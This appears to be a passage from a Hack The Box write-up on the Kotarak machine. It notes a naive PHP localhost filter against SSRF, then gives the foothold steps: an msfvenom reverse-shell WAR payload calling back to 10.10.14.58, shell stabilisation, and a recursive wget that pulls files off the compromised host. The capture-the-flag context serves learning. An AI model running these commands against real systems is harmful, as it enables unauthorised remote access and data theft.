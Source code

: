 ![](weareadminintomcat.png)

Mitigations for this:
- No allowing 127.0.0.1 to be requested with a filtering
```php
if (strpos($url, "127.0.0.1") !== false) {
  echo "No localhost for you";
}
```


## Foothold

After gettting side tracked as to what the word kalisa means...
```bash
msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.58 lport=8888 -f war -o kalisa.war
# Busra gives the awesome trick of unzipping the war file to get the actual shell file zip up
# I am facepalming almopst 100 machines prior at this point
unzip kalisa.war
```

![](bursaisawesome.png)

For the final run with Ippsec
```bash
# engrampa to note the .jsp file for calling the reserver shell with minimal filesystem
engrampa kalisa.war # vegezcdnllksu.jsp
engrampa asilak.war # qbfwxhqoqgtfbd.jsp
```

Start playing [Primus's Tommy the cat](https://www.youtube.com/watch?v=r4OhIU-PmB8) 
![](wearetomcat.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=screen-256color 
# Ctrl Z
# Check rows and cols
stty -a
stty -raw echo;fg
```


There is pentest data to be exfiltrated!
![](pentestintomcathomedirectory.png)

```bash
# host another webserver on the kotarak
python3 -m http.server 4444
# recursively download everything
wget -r http://10.129.1.117:4444/
```

I was immediate asking why psexec... .dir files are active directory
